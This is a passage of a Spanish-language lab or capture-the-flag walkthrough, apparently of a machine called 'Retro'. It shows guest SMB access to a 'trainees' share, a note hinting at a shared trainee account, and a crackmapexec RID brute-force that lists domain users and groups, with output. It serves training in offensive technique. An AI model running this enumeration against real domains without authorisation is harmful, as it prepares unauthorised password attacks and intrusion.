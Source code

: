- Vamos a conectarnos al recurso compartido.

```bash
➜  content smbclient //10.10.65.176/trainees
Password for [WORKGROUP\miguel]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul 23 15:58:43 2023
  ..                                DHS        0  Wed Jul 26 03:54:14 2023
  Important.txt                       A      288  Sun Jul 23 16:00:13 2023

		6261499 blocks of size 4096. 2892471 blocks available
smb: \>
```

- Encontramos lo siguiente.

```bash
smb: \> get Important.txt
getting file \Important.txt of size 288 as Important.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> exit
➜  content cat Important.txt
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins%
```

- Y bueno, nos dicen que él la administración está cansada de tener que lidiar con el problema recurrente de las contraseñas olvidadas, crearon una cuenta para todos los **trainees**.

- Según el admin creo una cuenta para todos, vamos a realizar un ataque de fuerza bruta con **crackmapexec** con los **RIDs** de los usuarios del dominio junto con sus **SID** .

<p align="center">
<img src="https://i.imgur.com/U4ZlMAD.png">
</p>

```bash
➜  content crackmapexec smb 10.10.65.176 -u 'guest' -p '' --rid-brute
SMB         10.10.65.176    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.65.176    445    DC               [+] retro.vl\guest:
SMB         10.10.65.176    445    DC               [+] Brute forcing RIDs
SMB         10.10.65.176    445    DC               498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.65.176    445    DC               500: RETRO\Administrator (SidTypeUser)
SMB         10.10.65.176    445    DC               501: RETRO\Guest (SidTypeUser)
SMB         10.10.65.176    445    DC               502: RETRO\krbtgt (SidTypeUser)
SMB         10.10.65.176    445    DC               512: RETRO\Domain Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               513: RETRO\Domain Users (SidTypeGroup)
SMB         10.10.65.176    445    DC               514: RETRO\Domain Guests (SidTypeGroup)
SMB         10.10.65.176    445    DC               515: RETRO\Domain Computers (SidTypeGroup)
SMB         10.10.65.176    445    DC               516: RETRO\Domain Controllers (SidTypeGroup)
SMB         10.10.65.176    445    DC               517: RETRO\Cert Publishers (SidTypeAlias)
SMB         10.10.65.176    445    DC               518: RETRO\Schema Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               519: RETRO\Enterprise Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               520: RETRO\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.65.176    445    DC               521: RETRO\Read-only Domain Controllers (SidTypeGroup)
```